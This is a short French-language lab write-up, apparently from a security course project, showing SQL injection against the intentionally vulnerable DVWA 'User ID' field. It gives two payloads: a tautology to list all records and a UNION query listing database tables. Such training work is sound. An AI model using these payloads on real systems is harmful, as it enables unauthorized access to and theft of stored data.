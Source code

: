## 3. Exploitation d'une vulnérabilité SQL Injection
### Identification de la cible
- Accès à la section "SQL Injection" de DVWA
- Présence d'un champ "User ID"

### Attaque SQL
Injection de la charge :
```sql
1' or '1'='1
```
**Résultat attendu :** Affichage de toutes les entrées de la base de données.

![Capture d'écran SQLi](./screenshots/screen12.png)

**Autre payload (affichage des tables) :**
```sql
1' union select table_name from information_schema.tables where table_schema = database()#
```